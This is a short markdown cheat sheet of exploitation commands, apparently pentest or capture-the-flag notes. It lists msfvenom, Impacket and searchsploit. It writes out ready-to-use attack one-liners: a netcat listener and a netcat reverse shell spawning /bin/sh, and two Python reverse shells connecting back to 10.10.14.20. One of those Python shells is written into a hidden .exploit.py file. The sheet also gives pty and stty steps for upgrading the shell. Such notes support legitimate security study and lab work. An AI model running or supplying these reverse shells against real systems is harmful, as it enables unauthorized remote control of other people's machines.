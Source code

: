 # Exploitation

## MSFvenom

msfvenom

## Impacket

Impacket

## Netcat

Netcat Listner on Attacker Machine
```
nc -nlvp 7777
```

Netcat Reverese Shell on Target Machine
```
nc -nv 10.10.10.1 7777 -e /bin/sh
```

## Searchsploit

Download the exploit from searchsploit.
```
searchsploit -m 8572.c
```

## Python

Python SimpleHTTPServer - start up a server on your attack machine.
```
python3 -m http.server 7000
```

Python Reverese Shell
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.20",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
```
echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.20\",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);" > .exploit.py
```

Upgrade to Python Shell
```
python -c 'import pty; pty.spawn("bash")'

python3 -c 'import pty; pty.spawn("/bin/bash")'
```

To get a fully interactive shell, background the session (CTRL+ Z) and run the following in your terminal which tells your terminal to pass keyboard shortcuts to the shell.
```
stty raw -echo
```
Once that is done, run the command "fg" to bring netcat back to the foreground.
